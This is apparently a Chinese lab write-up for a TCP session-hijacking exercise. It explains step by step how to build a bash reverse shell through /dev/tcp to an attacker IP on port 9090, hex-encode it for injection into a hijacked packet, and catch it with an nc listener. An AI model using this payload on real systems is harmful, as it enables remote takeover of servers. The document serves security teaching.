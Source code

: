 netcat(简称 nc)用于侦听端口 9090 上的连接。

> **标准输出设备**。在绘会话劫持中已经介绍了如何使用一个TCP伪设备重定向cat命令的输出到另一个主机的tcp服务中。为了得到反向shell，可以执行如下命令，即使用tcp为设备作为Bash程序的标准输出设备。
>
> ```bash
> /bin/bash -i > /dev/tcp/攻击者IP/9090
> ```
>
> **标准错误设备**。上面的命令是不够的。Bash程序的输出，不仅使用标准输出设备，也使用标准错误设备。因此，需要重定向标准错误设备到TCP伪设备，这可以通过在命令结尾附加`2>&1`来实现。在UNIX系统中，标准输入、输出以及错误设备分别由文件描述符0、1、2标识。通过重定向标准错误设备到文件描述符1，程序也可以使用标准输出设备来输出错误信息。因为标准输出设备已经重定向到tcp伪设备，因此Bash输出的所有货物信息也将会被发送到tcp连接更新后的命令如下：
>
> ```bash
> /bin/bash -i > /dev/tcp/攻击者IP/9090 2>&1
> ```
>
> **标准输入设备**。如果试图在攻击者端的shell程序中输入内容。不会得到任何反馈，这是因为缺少对shell设备的控制。因此，服务器中的shell程序依旧从本地输入设备中得到输入，这也是依然可以在服务器中输入命令的原因。为了能够让shell程序从TCP伪设备得到输入。可以在命令后附加符号，符号。这表示使用文本描述符为1的设备作为输入设备(文件描述符为0)。更新后的命令如下所示：
>
> ```absh
>  /bin/bash -i > /dev/tcp/攻击者IP/9090 2>&1 0<&1
> ```

> `/bin/bash` 命令表示通常在受损服务器上执行的命令。 此命令有以下几个部分： 
>
> - `/bin/bash-i`：i 代表交互式，意思是 shell 必须是交互式的(必须提供 shell 提示)
>
> - `\>/dev/tcp/192.168.136.130/9090`：其作用是将 shell 的**输出**(stdout)重定向到 TCP 连接到 192.168.136.130(攻击机)的9090端口。 输出 stdout 用文件描述符编号 1 表示。
> - `0<&1`: 文件描述符 0 表示**标准输入**(stdin)。 这导致外壳的 stdin 从 tcp 连接中获得。
> - `2>&1`:文件描述符 2 表示**标准错误** stderr。 这导致错误输出被重定向到 TCP 连接

将命令转码

```bash
# python2
'\r /bin/bash -i > /dev/tcp/攻击者IP/9090 2>&1 0<&1 \r'.encode('hex')

# python3
'\r /bin/bash -i > /dev/tcp/攻击者IP/9090 2>&1 0<&1 \r'.encode("utf-8").hex()
```

```bash
'0d202f62696e2f62617368202d69203e202f6465762f7463702f3139322e3136382e3133362e3133302f3930393020323e263120303c2631200d'
```

再次开始监听

```bash
nc -lv 9090
```

任务4的方式故技重施，用户与服务器先正常通讯一次（如，ls，whoami），再抓最后一个包，改数据
